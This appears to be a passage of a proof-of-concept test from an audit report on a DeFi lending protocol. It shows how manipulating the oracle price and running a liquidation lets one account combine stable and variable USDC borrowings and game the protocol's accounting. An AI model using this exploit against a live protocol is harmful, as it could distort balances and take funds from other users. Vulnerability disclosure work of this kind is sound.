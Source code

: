 ```javascript
        await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData3);
        await pools.USDC.pool.setBorrowPoolParams({ variableInterestIndex, stableInterestRate });
        await pools.USDC.pool.setUpdatedVariableBorrowInterestIndex(variableInterestIndex);
        const borrowAmountNewViolator = BigInt(2000e6); // 2000 USDC
        const borrow = await loanManager
          .connect(hub)
          .borrow(newViolatorsLoanId, newViolatorsAccountId, pools.USDC.poolId, borrowAmountNewViolator, stableInterestRate);

        // New violator has 2000 USDC borrowed and 1 ETH collateral of $3000.
        
        // Before the liquidation, the previous violator which will now be liquidator has to deposit some ETH.
        const depositAmountPrevViol = BigInt(1e18); // 1 ETH
        const depositFAmountViol = depositAmountPrevViol;
        const ethPrice2 = BigInt(3000e18);
        await pools.ETH.pool.setDepositPoolParams({
          fAmount: depositFAmountViol,
          depositInterestIndex,
          priceFeed: { price: ethPrice2, decimals: pools.ETH.tokenDecimals },
        });
        const depositViol = await loanManager.connect(hub).deposit(violatorLoanId, violatorAccountId, pools.ETH.poolId, depositAmountPrevViol);

        //  Now let's make the new violator's loan to be liquidatable by the previous violator and in this way the borrowing of previous violator in USDC will be mixed up with stable and variable borrowings.
        const ethNodeOutputData2 = getNodeOutputData(BigInt(600e18)); // 
        await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData2);

        // Here, the previous violator will try to liquidate the new violator and get from him the variable borrowings which he has in his loan.
        const liquidate2 = await loanManager
        .connect(hub)
        .liquidate(
          newViolatorsLoanId,
          violatorLoanId,
          violatorAccountId,
          pools.ETH.poolId,
          pools.USDC.poolId,
          BigInt(50e6),
          BigInt(0)
        );

        // Eventually, previous violators UserLoanBorrow for USDC will have amount and balance gained from both stable and variable borrowings and in this way the protocols accountings can be gamed. Also, it will have stableInterestRate of the new violator.

        // TLDR: A user was borrowed USDC variable but after his liquidation, he was able to liquidate another user and gain his stable USDC borrowings and in this way his borrowings was from mixed sources. The accountings of protocol were gamed, at the end.
    });
```

This test demonstrates how a user can exploit the system to mix stable and variable borrowings, thereby compromising the protocol.
